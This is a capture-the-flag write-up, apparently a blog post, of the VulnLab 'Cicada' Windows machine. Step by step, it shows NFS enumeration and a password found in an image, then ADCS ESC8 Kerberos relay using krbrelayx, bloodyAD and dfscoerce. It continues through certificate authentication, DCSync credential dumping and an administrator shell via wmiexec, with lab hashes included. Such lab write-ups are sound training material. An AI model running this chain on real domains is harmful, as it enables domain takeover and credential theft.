 ```yaml
---
title: VulnLab -- Cicada Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC8,ADCS]
image:
    path: /images/Cicada-banner.png
---
```

# Cicada

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Cicada** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/cicada-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 389,9389,53,445,49667,49671,59847,3269,139,80,2049,5985,49678,49664,593,59873,59811,464 --min-rate=1000 10.10.88.205
```

![image.png](../images/cicada.png)

Now let’s enumerate the NFS

```bash
showmount -e 10.10.88.205
```

![image.png](../images/cicada%201.png)

> Notice that we have a profiles mount
> 

Now let’s go and mount it

```bash
sudo mount -t nfs 10.10.88.205:/profiles Mount
```

![image.png](../images/cicada%202.png)

now let’s see what is in the mount directory

```bash
tree .
```

![image.png](../images/cicada%203.png)

Now let’s open the marketing cicada from the user directory

```bash
eog marketing.png
```

![image.png](../images/cicada%204.png)

> Notice that the cicada contains a password
username: Rosie.Powell
password: Cicada123
> 

Now let’s go and try it

```bash
nxc smb bruno.vl -u 'Rosie.Powell' -p 'Cicada123'
```

![image.png](../images/cicada%205.png)

> Notice that it say STATUS_NOT_SUPPORTED which mean that the NTLM authentication is disabled
> 

So let’s try again with the Kerberos auth 

```bash
nxc smb cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k
```

![image.png](../images/cicada%206.png)

and we are authenticated

So let’s go and enumerate the certificate service

First let’s get a TGT for the user Rosie

```bash
impacket-getTGT cicada.vl/Rosie.Powell:'Cicada123' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%207.png)

Now let’s export the TGT

```bash
export KRB5CCNAME=Rosie.Powell.ccache
```

![image.png](../images/cicada%208.png)

Now let’s find the CA Templates

```bash
certipy-ad find -k -no-pass -debug -dc-ip dc-jpq225.cicada.vl -ns 10.10.88.205
```

![image.png](../images/cicada%209.png)

Now let’s go and get the output

```bash
cat 20250330050004_Certipy.txt | grep -i ESC8 -b50
```

![image.png](../images/cicada%2010.png)

> Notice that there is a template that is vulnerable to ESC8 which will help us relaying the Web remotely
> 

Now let’s start KRB Relay

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController -debug
```

![image.png](../images/cicada%2011.png)

Now let’s create a domain joined machine

```bash
bloodyAD -u 'rosie.powell' -p 'Cicada123' --host dc-jpq225.cicada.vl -k -d 'cicada.vl' add dnsRecord 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.8.5.233
```

![image.png](../images/cicada%2012.png)

Now let’s relay

```bash
python3 dfscoerce.py -k -no-pass -dc-ip dc-jpq225.cicada.vl 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2013.png)

Now let’s go back and check if we go anything

![image.png](../images/cicada%2014.png)

And we did so let’s go and try to authenticate to get the machine hash

```bash
certipy-ad auth -pfx 'unknown3732$.pfx' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%2015.png)

Now let’s go to perform DCSync and retrieve all the hashes

First let’s get a TGT for the Machine Account

```bash
impacket-getTGT cicada.vl/'dc-jpq225$':'' -dc-ip 10.10.88.205 -hashes :9323a945f6606ac6b44263f00218cfab
```

![image.png](../images/cicada%2016.png)

Now let’s export it

```bash
export KRB5CCNAME=dc-jpq225$.ccache
```

![image.png](../images/cicada%2017.png)

Now let’s DCSync

```bash
impacket-secretsdump -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2018.png)

Now let’s request a ticket for the administrator

```bash
impacket-getTGT cicada.vl/administrator:'' -dc-ip 10.10.88.205 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

![image.png](../images/cicada%2019.png)

now let’s export his ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/cicada%2020.png)

Now let’s try to wmi to the machine

```bash
impacket-wmiexec -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2021.png)

Now let’s go to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/cicada%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/cicada%2023.png)

That’s it for the **Cicada** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
